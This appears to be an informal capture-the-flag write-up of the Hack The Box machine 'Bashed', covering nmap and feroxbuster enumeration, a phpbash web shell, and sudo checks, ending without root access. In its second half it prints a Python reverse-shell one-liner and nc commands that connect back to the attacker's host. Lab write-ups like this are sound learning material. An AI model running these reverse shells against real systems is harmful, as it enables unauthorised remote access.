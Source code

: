 ![](20230211124736.png)  

it mentions phpbash developed at arrexel
https://github.com/Arrexel/phpbash

```
└─$ nmap -sC -sV -Pn 10.10.10.68
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-11 12:43 EST
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 30.03% done; ETC: 12:50 (0:04:51 remaining)
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
80/tcp   open     http           Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
3370/tcp filtered satvid-datalnk

```

we can http://10.10.10.68/uploads/

in the images we see that ther re is this directory


feroxbuster --url http://10.10.10.68/uploads -x php

```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://10.10.10.68/uploads -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.68/uploads
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        9l       28w      312c http://10.10.10.68/uploads => http://10.10.10.68/uploads/
403      GET       11l       32w      290c http://10.10.10.68/.php
[####################] - 8m     60000/60000   0s      found:2       errors:89     
[####################] - 8m     60000/60000   113/s   http://10.10.10.68/uploads/ 

```

![](20230211130654.png)  

no permission to upload it says


after some more busting found at

![](20230211133302.png)  

now we need to find vuln in the code

![](20230211140234.png)  

problem with uploading shell

but user flag gotten easily

![](20230214120019.png)  

python shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

`nc -lvp 1235`


/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL

python doesn'tseem to run

in my case however nc  return connect momentarily

/bin/sh | nc 10.10.14.19 1235

trying all weird combinations but unableto get the script accross

so bashed shall remain unconquered

